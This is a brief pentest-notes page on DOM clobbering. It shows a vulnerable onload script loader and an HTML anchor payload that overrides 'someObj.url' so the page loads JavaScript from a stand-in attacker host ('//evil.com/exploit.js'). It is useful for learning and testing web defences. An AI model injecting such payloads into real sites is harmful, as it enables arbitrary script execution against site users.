 ```yaml
---
title: DOM Cloberring
description: 
tags:
    - Web
refs:
    - https://portswigger.net/web-security/dom-based/dom-clobbering
date: 2023-06-15
draft: false
---
```


## Basic Exploitation

If the website adds the JavaScript code into the DOM when loading page as below,

```jsx
window.onload = function() {
	let someObj = window.someObj || {};
	let script = document.createElement('script');
	script.src = someObj.url;
	document.body.appendChild(script);
}
```

We may manipulate this **`someObj`** and override the properties (**`url`** here) using **`anchor`** elements, then we can execute arbitrary JavaScript code.   
For example, insert the following code in the comment, search, etc. in the target website.

```html
<a id=someObj><a id=someObj name=url href=//evil.com/exploit.js>
```
